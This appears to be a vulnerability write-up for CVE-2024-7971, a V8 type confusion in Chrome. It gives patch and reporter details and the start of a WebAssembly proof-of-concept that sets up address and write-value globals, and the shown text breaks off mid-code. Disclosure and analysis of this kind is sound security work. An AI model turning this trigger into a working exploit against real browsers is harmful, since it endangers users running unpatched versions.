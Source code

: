 # CVE-2024-7971: Chrome Type Confusion in V8
* a1loy

## The Basics

**Disclosure or Patch Date:** 21 August 2024

**Product:** Google Chrome

**Advisory:** https://chromereleases.googleblog.com/2024/08/stable-channel-update-for-desktop_21.html

**Affected Versions:** pre 128.0.6613.84

**First Patched Version:** 128.0.6613.84

**Issue/Bug Report:** https://issues.chromium.org/issues/360700873

**Patch CL:** https://chromium-review.googlesource.com/c/v8/v8/+/5797073

**Bug-Introducing CL:** N/A

**Reporter(s):** Microsoft Threat Intelligence Center (MSTIC), Microsoft Security Response Center (MSRC)

## The Code 

**Proof-of-concept:**

```js
// Flags: --liftoff-only
// d8.file.execute('test/mjsunit/wasm/wasm-module-builder.js');
const builder = new WasmModuleBuilder();

builder.addArray(kWasmI32, true);
builder.addStruct([makeField(kWasmI32, true), makeField(kWasmI32, true), makeField(kWasmI32, true), makeField(kWasmI32, true), makeField(kWasmI32, true), makeField(kWasmI32, true)]);
builder.addStruct([makeField(kWasmF32, true), makeField(wasmRefNullType(0), true), makeField(kWasmI32, true), makeField(kWasmI32, true), makeField(wasmRefNullType(0), true), makeField(wasmRefNullType(0), true)]);
builder.addType(makeSig([wasmRefNullType(2)], []));

let $sig2 =
    builder.addType(makeSig([], [kWasmF32, kWasmF32, kWasmF64, kWasmFuncRef]));
let $sig3 = builder.addType(
    makeSig([wasmRefNullType(2), kWasmF32, kWasmF32, kWasmF64, kWasmFuncRef], []));
    
let wasmDummyFunc = builder.addImport('m', 'dummyFunc', kSig_v_v);
let $globalLoopCounter = builder.addImportedGlobal('m', 'globalLoopCounter', kWasmI32, true);
let $globalLowerAddr = builder.addImportedGlobal('m', 'globalLowerAddr', kWasmF32, true);
let $globalUpperAddr = builder.addImportedGlobal('m', 'globalUpperAddr', kWasmF32, true);
let $globalWriteValue = builder.addImportedGlobal('m', 'globalWriteValue', kWasmF32, true);

builder.addDeclarativeElementSegment([wasmDummyFunc]);

let globalLowerAddr = new WebAssembly.Global({value: 'f32', mutable: true});
let globalUpperAddr = new WebAssembly.Global({value: 'f32', mutable: true});
let globalWriteValue = new WebAssembly.Global({value: 'f32', mutable: true});
let globalLoopCounter = new WebAssembly.Global({value: 'i32', mutable: true});
globalLoopCounter.value = 3; 

let triggerIdx = builder.addFunction(undefined, makeSig([wasmRefNullType(2)], []))
.addBodyWithEnd([
    kExprRefNull, 0x2,
    kExprTry, $sig2,
        ...wasmF32Const(0),
```